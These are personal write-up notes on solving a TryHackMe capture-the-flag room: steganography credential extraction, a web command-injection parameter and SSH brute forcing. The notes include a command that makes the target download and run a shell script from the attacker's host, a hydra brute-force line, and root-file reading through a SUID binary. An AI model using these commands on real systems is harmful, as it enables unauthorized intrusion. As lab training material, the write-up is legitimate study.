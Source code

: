 #hydra-ssh #python2-7

https://tryhackme.com/r/room/jackofalltrades

---
#### Nmap
![[Screenshot_2024-05-25_09-18-21.png]]

The port 22 and 80 were interverted, so the http is on 22 making my browser blocking it. So I used this [article](https://www.specialagentsqueaky.com/blog-post/r5iwj96j/2012-02-20-how-to-remove-firefoxs-this-address-is-restricted/) to bypass the restriction

So on the page, I've got 3 images, one path `recovery.php` and one base 64 string encoded:
```text
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

I extracted creds `jackinthebox:TplFxiSHjY` with `steghide` and the password from above:
```shell
steghide extract -sf Untitled.jpg
```

Then I connect to `/recovery.php` with these new creds and I get a blank page with this message:
![[Screenshot_2024-05-25_09-47-38.png]]

I can use `cmd` as GET param to interact with linux and create a reverse shell:
```shell
[url]?cmd=wget http://10.14.79.56:5050/shell -O /tmp/shell.sh
```
And then
```shell
[url]?cmd=sh /tmp/shell.sh
```

And here I m in

I found `jacks_password_list` with a password list, probably for ssh connection, I used hydra:
```shell
hydra -l jack -P passlist ssh://10.10.27.242:80
```

And jack's credentials are `jack:ITMJpGGIqg1jn?>@`

There is an image on jack's home so I have to use an old python 2.7 command to run a webserver:
```shell
python -m SimpleHTTPServer 5050
```

The user flag was displayed on the image, not in the metadatas

I used `linpeas.sh` for enumeration and `/usr/bin/strings` has SUID on root so I just had to
```shell
strings /root/root.txt
```

And here is the root flag